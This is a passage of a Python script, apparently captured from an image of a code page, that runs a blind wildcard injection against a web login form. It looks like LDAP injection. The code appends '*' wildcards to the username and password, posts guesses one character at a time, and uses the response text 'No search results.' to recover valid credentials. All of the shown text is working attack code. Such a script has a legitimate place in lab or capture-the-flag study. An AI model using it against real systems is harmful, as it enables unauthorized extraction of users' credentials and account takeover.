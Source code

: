 ```python
			if passwd[-1] != "*":

				passwd += "*"

		except:
			pass
		

	elif cred_to_find == "passwd":

		usr_character = ''
		validate_usr = "*"
		validate_pass = ''

		try:
			if user_name[-1] != "*":
				user_name += "*"
		except:
			pass
		
	else:

		exit()



	while True:

		try:
			if cred_to_find == "user_name":

				usr_character = chr_selector(track)

			elif cred_to_find == "passwd":

				pass_character = chr_selector(track)


			r_ = requests.post(url, data={"username":user_name+usr_character+"*", "password":passwd+pass_character+"*"})


			if  (r_.status_code == 200) and ("No search results." in r_.text):

				user_name+=usr_character
				passwd+=pass_character
				
				r = requests.post(url, data={"username":user_name+validate_usr, "password":passwd+validate_pass})

				track=0

				print(f"Partially valid --> USERNAME : {user_name.replace('*', '')} | PASSWORD : {passwd.replace('*', '')}")
						
				if (r.status_code == 200) and ("No search results." in r.text):
					print(f"valid --> USERNAME : {user_name} | PASSWORD : {passwd}")

					break
				

				else:
					track+=1
```